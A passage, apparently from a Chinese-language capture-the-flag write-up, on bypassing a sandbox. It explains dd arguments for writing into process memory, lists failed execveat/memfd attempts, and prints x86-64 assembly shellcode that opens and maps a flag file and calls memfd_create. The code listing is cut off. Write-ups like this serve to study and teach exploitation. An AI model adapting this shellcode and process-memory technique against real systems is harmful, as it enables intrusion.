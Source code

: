 dd 的每个参数都是必要的，特别是 bs 和 notrunc，如忽略 bs 将导致偏移量单位被理解为 512 字节，如忽略 notrunc 将导致 dd 直接失败在对 mem 的 ftruncate 系统调用上。其中的 read 命令用于方便本地调试时的 gdb attach。该方案一次性获得了前两个 flag。第三个 flag 我尝试了很多方案，包括第二阶段提示的 memfd 方案，如使用 `execveat(memfd, "", NULL, NULL, AT_EMPTY_PATH)`，退回 ENOENT 错误；如使用 `dfd = open("/proc/self/fd", O_RDONLY); execveat(dfd, itoa(memfd), NULL, NULL, 0)`，退回 EPERM 错误。属实没有其他对策了。第二种方案的汇编如下：

```assembly
	.globl	_start
_start:
	movl	$2, %eax			# __NR_open
	leaq	-0x10(%rsp), %rdi		# pathname
	movabsq	$0x7261682f706d742f, %rdx
	movq	%rdx, (%rdi)
	movabsq	$0x67616c665f64, %rdx
	movq	%rdx, 0x8(%rdi)
	xorl	%esi, %esi			# flags
	syscall					# fd = open("/tmp/hard_flag", O_RDONLY)
	movl	%eax, %ebx			# saved fd
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)

	movl	$9, %eax			# __NR_mmap
	xorl	%edi, %edi			# addr
	movl	$907568, %esi			# length
	movl	$1, %edx			# prot
	movl	$2, %r10d			# flags
	movl	%ebx, %r8d			# fd
	xorl	%r9d, %r9d			# offset
	syscall					# buf = mmap(NULL, 907568, PROT_READ, MAP_PRIVATE, fd, 0)
	movq	%rax, %rbp			# saved buf
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)

	movl	$3, %eax			# __NR_close
	movl	%ebx, %edi			# fd
	syscall					# close(fd)
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)

	movl	$319, %eax			# __NR_memfd_create
	leaq	-0x10(%rsp), %rdi		# name
	movabsq	$0x7261682f706d742f, %rdx
	movq	%rdx, (%rdi)
	movabsq	$0x67616c665f64, %rdx
	movq	%rdx, 0x8(%rdi)
	xorl	%esi, %esi			# flags
	syscall					# fd = memfd_create("/tmp/hard_flag", 0)
	movl	%eax, %ebx			# saved fd
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
```